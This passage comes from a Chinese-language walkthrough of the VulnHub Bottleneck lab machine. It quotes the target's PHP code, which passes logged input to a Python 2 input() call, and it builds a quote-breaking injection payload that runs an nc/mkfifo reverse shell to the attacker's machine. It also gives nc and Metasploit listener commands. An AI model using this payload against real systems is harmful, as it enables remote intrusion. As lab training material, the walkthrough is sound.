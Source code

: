 ```
}
else{
    echo $filecontent;
}
chdir('../');

?>
```

从代码中我们可以看出其中有黑名单，我们刚刚测试的`/etc`也在其中

而且我们还可以看到其中还有`python execute`语句

仔细分析下关键代码：

```
if($isblocked){
    $logfile = 'intrusion_'.$timestamp;
    $fp = fopen('/var/log/soc/'.$logfile, 'w');
    fwrite($fp, "'".$imagefile."'");
    fclose($fp);
    exec('python /opt/ids_strong_bvb.py </var/log/soc/'.$logfile.' >/tmp/output 2>&1');
    print_troll();
    exit();
}
```

在有黑名单的关键词时会被输入`python`语句输出到日志

那么此处就想到可以利用输入时的`input`函数，让包含`payload`的语句成功被`python`执行

> input()函数产生漏洞的原因：此函数会将 stdin 输入的内容当做 python 代码去执行（就像执行计算式一样，将其看做 python 代码，通过计算返回结果）。在 python3 中，input()函数被默认改为默认输入为字符串。

此处我们只需要把`python`语句放在`etc' and`和`and '`之间即可

** 我文章不是一天写完的所以 kali 和靶机的 ip 有变化 **

构造`payload`如下：

```
etc' and __import__("os").system("rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc kali的ip 4444 >/tmp/f") and'
```

写入`payloads.txt`，在`kali`上先开启监听`nc -lvp 4444`

执行脚本，获取到 shell 下查看当前权限如下：

![][11]

在`kali`上监听也可以使用`msf`

`payload`设置为`cmd/unix/reverse_netcat_gaping`

快速开启监听：

```
handler -H kali的ip -P 4444 -p cmd/unix/reverse_netcat_gaping
```


[1]: https://www.vulnhub.com/entry/bottleneck-1,374/
[2]: https://soapffz.com/427.html
[3]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_200649.png
[4]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_200527.png
[5]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201035.png
[6]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201138.png
[7]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201713.png
[8]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201746.png
[9]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201939.png
[10]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_205021.png
[11]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_193531.png
[12]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_194854.png
[13]: https://www.secpulse.com/archives/75491.html
[14]: https://intx0x80.blogspot.com/2017/05/python-input-vulnerability_25.html
[15]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_195221.png
[16]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_200012.png
[17]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_202403.png
[18]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_203027.png
[19]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_204015.png
[20]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_204125.png
[21]: https://github.com/jivoi/pentest/blob/master/shell/rootshell.c
[22]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_211656.png
[23]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200117_210048.png
[24]: https://ischizo.com/write-up-bottleneck-1-vulnhub/
[25]: https://mp.weixin.qq.com/s/skCNWPiEPgJcHXSmsif5qQ